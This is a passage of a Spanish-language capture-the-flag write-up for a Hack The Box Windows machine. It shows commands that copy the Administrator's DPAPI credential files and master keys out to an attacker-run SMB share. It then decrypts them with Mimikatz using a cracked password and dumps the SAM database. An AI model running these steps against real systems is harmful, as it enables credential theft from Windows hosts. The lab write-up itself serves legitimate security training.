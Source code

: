 Vamos a iniciar nuevamente un servicio SMB para recibir todos esos archivos de la máquina.

```bash
❯ impacket-smbserver kali . -smb2support
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0  
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

Ahora vamos a copiar las credenciales DPAPI y las master keys al recurso SMB que hemos creado. Una vez descargados los archivos, para poder descifrarlos, primero copiaremos las credenciales y las master keys a una máquina con Windows para luego ejecutar Mimikatz.

Iniciaremos ingresando la master key, indicando el SID que hemos visto anteriormente y también la contraseña de Administrator que hemos conseguido y decodificado con John.

```powershell
PS C:\Users\Administrator\Documents> cp C:\VSS\Users\Administrator\AppData\Roaming\Microsoft\Credentials\1A2572C793495F694F64823A392D4718 \\10.10.14.10\kali\1A2572C793495F694F64823A392D4718
PS C:\Users\Administrator\Documents> cp C:\VSS\Users\Administrator\AppData\Roaming\Microsoft\Credentials\4A2EEB30EFC7958491B6578D9948EC7F \\10.10.14.10\kali\4A2EEB30EFC7958491B6578D9948EC7F
PS C:\Users\Administrator\Documents> cp C:\VSS\Users\Administrator\AppData\Roaming\Microsoft\Protect\S-1-5-21-4124311166-4116374192-336467615-500\87790867-a883-4a2d-a467-019c315e1104 \\10.10.14.10\kali\87790867-a883-4a2d-a467-019c315e1104  
PS C:\Users\Administrator\Documents> cp C:\VSS\Users\Administrator\AppData\Roaming\Microsoft\Protect\S-1-5-21-4124311166-4116374192-336467615-500\dc6059f1-5ba2-4186-871a-0ff4055a6875 \\10.10.14.10\kali\dc6059f1-5ba2-4186-871a-0ff4
PS C:\Users\Administrator\Documents>
```

```bash
mimikatz # dpapi::masterkey /in:87790867-a883-4a2d-a467-019c315e1104 /sid:S-1-5-21-4124311166-4116374192-336467615-500 /password:./*40ra26AZ
**MASTERKEYS**
  dwVersion          : 00000002 - 2
  szGuid             : {87790867-a883-4a2d-a467-019c315e1104}
  dwFlags            : 00000005 - 5
  dwMasterKeyLen     : 000000b0 - 176
  dwBackupKeyLen     : 00000090 - 144
  dwCredHistLen      : 00000014 - 20
  dwDomainKeyLen     : 00000000 - 0
[masterkey]
  **MASTERKEY**
    dwVersion        : 00000002 - 2
    salt             : c41ab656df74c2a51cb872fa5a5be7fc
    rounds           : 00001f40 - 8000
    algHash          : 0000800e - 32782 (CALG_SHA_512)
    algCrypt         : 00006610 - 26128 (CALG_AES_256)
    pbKey            : bac9efb95aeb3796cabdb684ec758f5d32b0a9c564eb6f32b9a8de9c75d8ac677b6ce2b6da49875e2c04629a23260e7ac849955cc17aed002e3d1a0154ce86cb8faec38312fa7d65472dcdba7e4e79688558f3a185c4f5fbb8e09a24f3b9d48dbbe802eef159ca62a394354b15beb940eadeb014f82a09cb2e92eed7276facbb50c01177f5db0b76ed3f31fb877e3ec5  


[backupkey]
  **MASTERKEY**
    dwVersion        : 00000002 - 2
    salt             : 50cbeb0513a21c53150e9b0cad9bd772
    rounds           : 00001f40 - 8000
    algHash          : 0000800e - 32782 (CALG_SHA_512)
    algCrypt         : 00006610 - 26128 (CALG_AES_256)
```

[dev.htb.local]: PS C:\Users\Administrator\Documents> whoami
[dev.htb.local]: PS C:\Users\Administrator\Documents>
[dev.htb.local]: PS C:\Users\Administrator\Documents> cp \\10.10.14.10\kali\mimikatz.exe .
[dev.htb.local]: PS C:\Users\Administrator\Documents> .\mimikatz.exe 'token::elevate' 'lsadump::sam' exit
[dev.htb.local]: PS C:\Users\Administrator\Documents>